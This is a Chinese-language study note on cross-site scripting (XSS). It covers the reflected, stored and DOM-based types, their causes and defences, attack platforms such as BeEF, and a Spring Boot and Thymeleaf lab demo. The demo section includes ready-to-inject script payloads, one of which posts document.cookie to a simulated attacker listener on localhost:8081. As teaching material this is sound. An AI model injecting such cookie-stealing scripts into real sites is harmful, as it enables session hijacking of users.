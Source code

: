 ### XSS

#### 概念
跨站脚本攻击：英文全称是 `Cross-site scripting`，本来缩写是`CSS`，但是为了和层叠样式表(Cascading Style Sheets)有所区别，所以在安全领域叫`XSS`。

`XSS`攻击，通常指黑客通过"HTML注入"篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。
在一开始，这种攻击的演示案例是跨域的，所以叫做“跨站脚本”，但是发展到今天，由于JavaScript的强大功能以及网站前端应用的复杂化，是否跨域已经不再重要。
但是由于历史原因，XSS这个名字却一直保留下来。

#### 类型
1. 反射型XSS
1. 存储型XSS
1. DOM Based XSS
1. 通用型XSS ???
1. 突变型XSS ???

#### 反射型XSS
##### 概念
简单地把用户输入的数据“反射”给浏览器。也就是说，攻击者必须以某种方式诱导用户访问一个精心设计的URL（恶意链接），才能实施攻击。
也叫做“非持久型XSS”(Non-persistent XSS)。
##### 原因
当用户的输入或者一些用户可控参数未经处理地输出到页面上，就容易产生XSS漏洞。主要场景有以下几种：
* 将不可信数据插入到HTML标签之间时；// 例如`div, p, td`
* 将不可信数据插入到HTML属性里时；// 例如：`<div width=$INPUT></div>`
* 将不可信数据插入到SCRIPT里时；// 例如：`<script>var message = " $INPUT ";</script>`
* 还有插入到Style属性里的情况，同样具有一定的危害性；// 例如`<span style=" property : $INPUT "></span>`
* 将不可信数据插入到HTML URL里时，// 例如：`<a href="[http://www.abcd.com?param=](http://www.ccc.com/?param=) $INPUT "></a>`
* 使用富文本时，没有使用XSS规则引擎进行编码过滤。



#### 存储型XSS
把用户输入的数据“存储”在服务器端。这种XSS具有很强的稳定性。
##### 场景
最常发生在由社区内容驱动的网站或 Web 邮件网站，不需要特制的链接来执行。比如博客评论，用户评论，留言板，聊天室，HTML 电子邮件，wikis
##### 攻击流程
![store xss](./img/storeXSS.png)

#### DOM Based XSS
通过修改页面的DOM节点形成的XSS，从效果来看，也是反射型XSS。历史原因，把它作为了单独的分类。
##### 漏洞成因
基于DOM文档对象模型的。对于浏览器来说，DOM文档就是一份XML文档，当有了这个标准的技术之后，通过JavaScript就可以轻松的访问DOM。

当确认客户端代码中有DOM型XSS漏洞时，**诱使(钓鱼)一名用户访问自己构造的URL**，利用步骤和反射型很类似，但是唯一的区别就是，构造的URL参数不用发送到服务器端，可以达到绕过WAF、躲避服务端的检测效果。
##### 可能触发DOM型XSS的属性
* document.referer属性
* window.name属性
* location属性
* innerHTML属性
* documen.write属性
* ...
##### 防御方法
脚本通过DOM动态地输出数据到页面而不是依赖于将数据提交给服务器端，而从客户端获得DOM中的数据在本地执行，因而仅从服务器端是无法防御的。其防御在于：
1. 避免客户端文档重写、重定向或其他敏感操作，同时避免使用客户端数据，这些操作尽量在服务器端使用动态页面来实现
1. 分析和强化客户端JS代码，特别是受到用户影响的DOM对象，注意能直接修改DOM和创建HTML文件的相关函数或方法，并在输出变量到页面时先进行编码转义，如输出到HTML则进行HTML编码、输出到<script>则进行JS编码


#### 防御手段
1. waf（非侵入）
2. 侵入性组件
3. 业务系统内的改造
    1. 输入校验：根据场景，明确字段里面包含js脚本的字符是否在业务上能够输入，比如`< > ( )`等认定为非法字符。
    1. 输出编码：js脚本里的字符认定为能够输入的字符，但是页面展示时，需要做输出编码。
    1. 变种的特殊处理

#### 类似的组件设计
分库分表数据库中间件
1. Mycat-代理，非侵入
2. Sharding-jdbc，侵入式

#### XSS攻击平台
1. Attack API
1. BeEF
1. XSS-Proxy
1. 终极武器：XSS Worm（用户之间发生交互行为的页面，如果存在存储型XSS，则比较容易发起 `XSS Worm` 攻击。如站内信，用户留言等。而相对的，如果一个页面只能由用户个人看到，如“个人资料设置”，因为缺乏用户之间的交互功能，所以即使存在XSS，也不能被用于`XSS W  orm`的传播）

#### 实际案例


#### 示例注意点
1. 模拟生成登录cookie
    * 已存在不生成
    * 设置过期时间
    * 只针对controller开出去的接口做拦截，静态资源的访问不进行拦截（配置目录需要具体，不能配置`/static/**`）
1. 示例攻击性脚本
    * 仅仅弹框型
        ```js
        <script>alert('it is a xss test!')</script>
        ```
    * 向攻击者服务器发送请求
        ```js
        // 简单示例：AJAX请求只能发给同源的网址
        // 实际情况，攻击者监听服务器与被攻击服务器不会是同一台机器，因此监听服务需要开启
        // 为方便模拟，就不分别构件不同的代码模块，直接springboot示例同时开启8080和8081，并行启动两个示例。8080被攻击者，8081攻击者。
        <script>
         $.ajax({
            url: "http://localhost:8081/listener/log",
            type: "POST",
            dataType: "json",
            data: JSON.stringify({data: document.cookie}),
            processData: false,
            contentType: "application/json",
            success: function(arg) {
                console.log(arg);
                console.log("监听到数据");
            }
        });
        </script>
      
        压缩后的脚本：
        <script>$.ajax({url:"http://localhost:8081/listener/log",type:"POST",dataType:"json",data:JSON.stringify({data:document.cookie}),processData:false,contentType:"application/json",success:function(arg){console.log(arg);console.log("监听到数据");}});</script>
        <script>$.ajax({url:"http://localhost:8081/listener/store",type:"POST",dataType:"json",data:JSON.stringify({data:document.cookie}),processData:false,contentType:"application/json",success:function(arg){console.log(arg);console.log("监听到数据");}});</script>
        ```
1. 攻击者监听上报数据的服务，必须开启可跨域访问（被攻击者的服务肯定和攻击者的服务肯定不同源，存在跨域问题）
1. 使用`druid`管理数据源
    * 另外datasource配置下加不加`druid`都可以。多一层而已。`druid`对两个都支持。
    * druid监控页面是一个servlet，需要让SpingBoot支持servlet：http://localhost:8080/druid
1. Thymeleaf常用标签：`th:text`无XSS，`th:utext`有XSS

    | 关键字      |               功能介绍               | 案例                                                         |
    | ----------- | :----------------------------------: | :----------------------------------------------------------- |
    | th:id       |                替换id                | `<input th:id="'xxx' + ${collect.id}"/>`                     |
    | th:text     |               文本替换               | `<p th:text="${collect.description}">description</p>`        |
    | th:utext    |          支持html的文本替换          | `<p th:utext="${htmlcontent}">content</p>`                   |
    | th:object   |               替换对象               | `<div th:object="${session.user}">`                          |
    | th:value    |               属性赋值               | `<input th:value = "${user.name}" />`                        |
    | th:with     |             变量赋值运算             | `<div th:with="isEvens = ${prodStat.count}%2 == 0"></div>`   |
    | th:style    |               设置样式               | `<div th:style="'display:' + @{(${sitrue} ? 'none' : 'inline-block')} + ''"></div>` |
    | th:onclick  |               点击事件               | `<td th:onclick = "'getCollect()'"></td>`                    |
    | th:each     |               属性赋值               | `<tr th:each = "user,userStat:${users}">`                    |
    | th:if       |               判断条件               | `<a th:if = "${userId == collect.userId}">`                  |
    | th:unless   |           和th:if判断相反            | `<a th:href="@{/login} th:unless=${session.user != null}">Login</a>` |
    | th:href     |               链接地址               | `<a th:href="@{/login}" th:unless=${session.user != null}>Login</a>` |
    | th:switch   |       多路选择配合th:case使用        | `<div th:switch="${user.role}">`                             |
    | th:fragment |         th:switch的一个分支          | `<p th:case = "'admin'">User is an administrator</p>`        |
    | th:includ   |    布局标签，替换内容到引入的文件    | `<head th:include="layout :: htmlhead" th:with="title='xx'"></head>` |
    | th:replace  |  布局标签，替换整个标签到引入的文件  | `<div th:replace="fragments/header :: title"></div>`         |
    | th:selectd  |          selected选择框选中          | `th:selected="(${xxx.id} == ${configObj.dd})"`               |
    | th:src      |            图片类地址引入            | `<img class="img-responsive" alt="App Logo" th:src="@{/img/logo.png}" />` |
    | th:inline   |        定义js脚本可以使用变量        | `<script type="text/javascript" th:inline="javascript">`     |
    | th:action   |            表单提交的地址            | `<form action="subscribe.html" th:action="@{/subscribe}">`   |
    | th:remove   |             删除某个属性             | `<tr th:remove="all"> 1.all:删除包含标签和所有的孩子。2.body:不包含标记删除,但删除其所有的孩子。3.tag:包含标记的删除,但不删除它的孩子。4.all-but-first:删除所有包含标签的孩子,除了第一个。5.none:什么也不做。这个值是有用的动态评估。` |
    | th:attr     | 设置标签属性，多个属性可以用逗号分隔 | `比如 th:attr="src=@{/image/aa.jpg},title=#{logo}"，此标签不太优雅，一般用的比较少。` |

    

#### 参考
1. 《白帽子讲Web安全》
1. [这一次，彻底理解XSS攻击](https://juejin.cn/post/6912030758404259854)
1. [关于XSS](https://juejin.cn/post/6844903926500704263)